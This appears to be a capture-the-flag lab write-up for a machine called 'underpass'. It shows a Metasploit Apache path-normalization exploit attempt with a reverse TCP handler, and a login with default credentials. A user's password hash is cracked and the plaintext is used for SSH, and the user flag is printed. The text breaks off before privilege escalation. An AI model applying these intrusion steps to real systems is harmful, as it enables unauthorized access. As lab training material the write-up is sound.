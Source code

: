 ```BASH
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_normalize_path_rce) >> exploit

[*] Started reverse TCP handler on 10.10.14.130:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[*] Error: 10.129.187.231: OpenSSL::SSL::SSLError SSL_connect returned=1 errno=0 peeraddr=10.129.187.231:80 state=error: wrong version number
[*] Scanned 1 of 1 hosts (100% complete)
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable.
[*] Exploit completed, but no session was created.
```

It's try to connect on SSL but the target is on http so go define SSL to false

```BASH
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_normalize_path_rce) >> set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
```

On the `/operators` beta login page we try to log with #defaultCredentials (`administrator:radius`).

And it's work.

![[Pasted image 20250204212518.png]]

On the user list, we can find a username and a hash of a password :

`svcMosh:412DD4759978ACFCC81DEAB01B382403`

Go on crackstation.

It's work we have now the password and login :

`svcMosh:underwaterfriends`

we can connect to ssh.
## 5. **Installation

## 6. **Command and Control

```BASH
svcMosh@underpass:~$ groups
svcMosh
svcMosh@underpass:~$ sudo whoami
[sudo] password for svcMosh: 
Sorry, user svcMosh is not allowed to execute '/usr/bin/whoami' as root on localhost.
```

We are not root.

Go take the user flag.

`ec565ec685ff025207eb49b706fad121

For escalate privileges I found this :
